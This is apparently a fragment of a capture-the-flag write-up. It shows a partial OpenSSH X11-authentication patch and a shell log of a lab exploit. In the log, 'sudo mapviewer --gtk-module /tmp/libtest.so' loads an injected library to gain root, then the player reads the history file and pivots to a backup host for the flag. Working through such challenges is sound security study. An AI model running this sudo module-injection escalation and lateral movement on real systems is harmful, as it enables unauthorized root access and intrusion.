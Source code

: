 ```diff
        /*
         * Received authentication protocol and data match
         * our fake data. Substitute the fake data with real
```

```
$ sudo apt-get source openssh
$ cd openssh-8.4p1
$ patch -p1 < patch.diff
$ make
....
$ ./ssh -Y   -i ../../ident customer01@maps-as-a-service.challenges.adversary.zone -p 4141

customer01@maps-as-a-service:~$ sudo mapviewer --gtk-module /tmp/libtest.so
root@maps-as-a-service:/home/customer01# cat ~/.ssh/id_ed25519.pub 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAUuuihVpCbj6764HiweYlNwyfQgUVblpzyqj/IiWAno root@maps-as-a-service
root@maps-as-a-service:/home/customer01# cat ~/.bash_history 
ssh backup@maps-backups.challenges.adversary.zone
root@maps-as-a-service:/home/customer01# ssh backup@maps-backups.challenges.adversary.zone
Warning: Permanently added the ECDSA host key for IP address '135.181.53.101' to the list of known hosts.
PTY allocation request failed on channel 0
CS{sudo_+_GTK_=_pwn}
```


